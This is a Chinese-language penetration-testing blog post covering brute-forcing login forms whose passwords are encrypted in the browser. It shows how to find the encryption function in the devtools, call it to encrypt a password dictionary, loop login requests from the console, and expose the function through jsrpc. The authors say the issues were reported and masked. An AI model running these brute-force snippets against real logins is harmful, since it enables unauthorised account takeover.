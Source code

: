 ```yaml
---
title: "前端攻防几个小案例"
date: 2022-09-06T12:00:00+08:00
draft: false
author: "r0fus0d & kitezzzGrim"

---
```


俗话说好记性不如烂笔头,记录一些平时测试的案例，省的下次遇到再重新摸索

{{% admonition info "info" %}}
关键信息均已打码,漏洞均已提交相关 src 修复
{{% /admonition %}}

<!--more-->

---

# 登陆点1

常规前端加密,f12找password加密JS代码来进行一个爆破

![](../../img/js-case/10.png)

这里是password的关键算法代码，可以看出该key，猜测是用了des加密

寻找password多断点，然后在登录框输入密码

![](../../img/js-case/14.png)

进入调试状态，一步步调试到加密算法这一步

不难猜出，s是加密后的结果，`object(l["a"])`是加密函数，e.loginform.password是输入的密码，后面就是key值。

所以我们可以编写一个js代码测试，输入的密码为jfhack
```js
let jiami = Object(l["a"])("jfhack", "6c81d5508f6578f7a6071e70");console.log(jiami);
```

控制台调用加密函数测试

![](../../img/js-case/12.png)

用 cyberchef 测试

![](../../img/js-case/13.png)

可以看到加密是一致的，这里可以直接控制台用js来生成字典

```js
let iii = 0;
let passdic = new Array();
passdic = ['123456','000000','88888']  // 这里写字典
for (iii=0;iii<passdic.length;iii++){
    let jiami = Object(l["a"])(passdic[iii], "6c81d5508f6578f7a6071e70");
    console.log(jiami);
}
```

---

# 登陆点2

遇到另外一个系统，密码也加密了，但密码好像加入了时间算法会一直变化。

![](../../img/js-case/15.png)

![](../../img/js-case/16.png)

关键代码是:

```js
data.password = common.encryptPassword(data.password);
```

于是编写了如下JS代码

```js
let jiami =common.encryptPassword('123');jiami
```

![](../../img/js-case/17.png)

可以看到 多次输出一样的原生密码，加密后的密码是一直在变化

后面有朋友提示思路，可以编写JS触发发包，无需写生成字典的JS代码，这个要根据目标登录部分的代码进行修改，参考代码如下：

```js
const array1 = ['a', 'b', 'c'];

array1.forEach(element => {
    // console.log(element)
    e.loginForm.password = element
    e.$store.dispatch("user/login" , e.loginForm)
});
```

---

# jsrpc 练手案例

看了 https://www.svenbeast.com/post/kn2fEdp4Q/ 的案例后，发现 jsrpc 可以很方便的满足我们js加密场景的一些需求，然后便找了一个站进行测试。

先简单抓个包看下密文

![](../../img/js-case/1.png)

`ec6a6536ca304edf844d1d248a4f08dc`,去 cmd5 反查下就知道了是2次md5

![](../../img/js-case/2.png)

这种情况一般直接在 burp 的 intruder 模块中，payload processing 进行处理即可

这里用jsrpc来练手，先f12找相关的加密函数

小技巧
- 全局搜索登陆点 url
- 全局搜索 password、encrypto 这种关键词

![](../../img/js-case/3.png)

![](../../img/js-case/4.png)

其实这里可以看到,目标就是直接调用的 https://github.com/emn178/js-md5 库

不管，装作看不见👀，现在目标是通过jsrpc实现，只要找到加密函数就行

在控制台，对js中的函数和值进行输出，看是否可以得到我们需要的结果

![](../../img/js-case/5.png)

参考项目issue https://github.com/jxhczhl/JsRpc/issues/4 中的方法可以将局部函数暴露给全局使用，这样就不用卡在断点中去调用函数了(ps:举个例,我这个场景比较简单，都不需要断点)

```
window.test = md5
test(test('1234'));
```

![](../../img/js-case/6.png)

此时控制台能正常调用加密函数了，也把目标函数改为全局函数了，接下来控制台直接复制 jsenv.js 的代码,同时本地启动 jsrpc 服务,连接通信
```
var demo = new Hlclient("ws://127.0.0.1:12080/ws?group=zzz&name=hlg");
```

在控制台注册js方法 通过传递函数名调用
```js
demo.regAction("testtttt", function (resolve,param) {
    console.log(param);
    var testttt123 = test(test(param));
    resolve(testttt123);
})
```

访问远程调用
```
http://127.0.0.1:12080/go?group=zzz&name=hlg&action=testtttt&param='1234'
```

![](../../img/js-case/9.png)

后续可以参考文章 https://www.svenbeast.com/post/kn2fEdp4Q/ 中的方案，通过本地 mitm 自动替换 payload,进行爆破

**能不能在控制台直接触发发包**

当然可以，将目标发送请求的部分修改后在控制台执行即可

```js
axios.post("/******/login", {name: "admin",password: test(test('1234'))})
```

![](../../img/js-case/19.png)
